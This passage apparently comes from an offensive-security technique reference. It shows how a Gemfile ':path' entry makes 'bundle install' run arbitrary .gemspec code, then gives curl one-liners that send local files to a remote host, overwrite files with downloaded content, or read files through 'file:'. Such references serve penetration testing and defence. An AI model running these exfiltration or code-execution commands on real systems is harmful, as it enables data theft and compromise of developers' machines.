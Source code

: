 You can specify that a gem is located in a particular location on the file system. Relative paths are resolved relative to the directory containing the `Gemfile`.

Similar to the semantics of the `:git` option, the `:path` option requires that the directory in question either contains a `.gemspec` for the gem, or that you specify an explicit version that bundler should use.

{% hint style="info" %}
Unlike `:git`, `bundler` does not compile native extensions for gems specified as paths
{% endhint %}

Therefore, you can gain code execution using the [.gemspec file with an arbitrary code](#gem-build) or [built gem with native extension](#extensions).

```ruby
# Gemfile
# .gemspec file is located in vendor/hola 
gem 'hola', :path => "vendor/hola"
```

```ruby
# Gemfile
# vendor/hola contains hola-0.0.0.gem file
gem 'hola', '0.0.0', :path => "vendor/hola"
```

When `bundle install` is run the arbitrary ruby code will be executed.

```bash
$ bundle install
hola!
Resolving dependencies...
Using hola 0.0.0 from source at `vendor/hola`
Using bundler 2.2.21
Bundle complete! 1 Gemfile dependency, 2 gems now installed.
```

References:
- [Bundler Docs: gemfile - Path](https://bundler.io/v1.16/gemfile_man.html#PATH)

# curl

[curl](https://curl.se/docs/) can be used to exfiltrate local files or write arbitrary content to them.

```bash
# sending local files using a POST request
$ curl --data @/path/to/local/file https://website.com
$ curl -F 'var=@/path/to/local/file' https://website.com
$ curl --upload-file /path/to/local/file https://website.com
# writing a response to a local file
$ curl https://website.com/payload.txt -o /path/to/local/file
```

Additionally, the `file:` scheme can be used to read or copy local files:

```bash
# read a local file
$ curl file:///path/to/local/file
# copy a local file to a new place
$ curl file:///path/to/local/file -o /path/to/another/local/file
```
